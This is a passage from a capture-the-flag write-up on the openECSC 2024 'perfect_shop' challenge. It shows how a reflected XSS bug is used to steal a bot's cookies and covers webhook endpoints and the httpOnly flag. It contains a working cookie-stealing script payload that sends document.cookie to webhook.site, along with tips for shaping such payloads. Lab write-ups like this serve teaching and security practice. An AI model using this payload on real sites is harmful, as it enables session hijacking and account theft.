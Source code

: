 As expected, with the filters disabled, we can successfully exploit it. And steal a cookie?

##### Cookie stealing and webhooks
Cookies are a special type of header, and for this reason, there's a kind of shortcut in JavaScript that allows accessing them, namely the `document.cookie` property.

To successfully exfiltrate a user's cookies on the website, you need an endpoint reachable by the victim, which means exposing a server to make it accessible to anyone.

[Webhooks](https://en.wikipedia.org/wiki/Webhook) are... versatile things. For this challenge, a website like [webhook.site](https://webhook.site/) allows using them as if you were using your own server exposed to the outside world.

For a test, you can use a payload like this: `<script>window.location="https://webhook.site/[REDACTED]?c="+document.cookie</script>`

In this type of payload, it's important not to use a random HTML tag, but to ensure that JavaScript code is actually executed (it's okay to insert the webhook URL concatenated with `document.cookie` inside an `onerror`, but not in a simple `src`) so that `document.cookie` is "reachable".

Also, you need to append the cookies as query parameters (for webhook and personal server) or as a path (for a personal server only). Failing to do so means appending the cookies as part of the host, which means the request will never reach the desired destination. For example, instead of ending up at `myhost.com`, it would end up at `myhost.comCOOKIENAME=COOKIEVALUE`, which makes no sense, unlike `myhost.com?c=COOKIENAME=COOKIEVALUE` or `myhost.com/COOKIENAME=COOKIEVALUE` (which doesn't make sense with `webhook.site`, unless you own that domain).

Executing the payload above by sending it to the search page yields the following result on webhook.site:

![Example webhook result](/writeups/openecsc-2024/perfect_shop/img/FirstWebhook.png)

There are the cookies!

#### Second step: Cookie stealing on the bot
Perhaps it would have made more sense to find a valid payload with the character filter first, but during the competition, I was a bit panicked and wanted to make sure I could steal the bot's cookies without problems. Unfounded fear, as there was no kind of control in this regard, and the value of [`httpOnly`](https://owasp.org/www-community/HttpOnly) for the `flag` cookie wasn't specified, which means it will be set to the default value of `false`.

*What does this mean?* For security reasons, the optional `httpOnly` flag was introduced for cookies, which if set to `true`, prevents JavaScript code in the document from accessing `document.cookie`, mitigating exactly the type of attack I'm about to perform.

But first, let's delve into the bot's operation and the related report page.

![Inspection of a POST request to the reporting endpoint](/writeups/openecsc-2024/perfect_shop/img/NetworkReport.png)

All fine, here's the ID and the message. Checking the logs, which appear on the terminal from which the `docker compose` was launched, it's also possible to verify which page was visited by the bot:

![Example of logs indicating that the bot visited the page related to the reported product](/writeups/openecsc-2024/perfect_shop/img/BotVisitsProduct.png)

And if, for no reason, you wanted to send an ID different from those prefixed by the `select` proposed by the developer? In this case, it's very useful to modify the request with Burp Suite or similar tools. Unfortunately, I don't have the time to show you how to set up Burp on your trusted browser ([this](https://www.youtube.com/watch?v=Vn_Zst6BMGo) tutorial may be helpful) or to show you the process to solve the challenge without using similar tools.
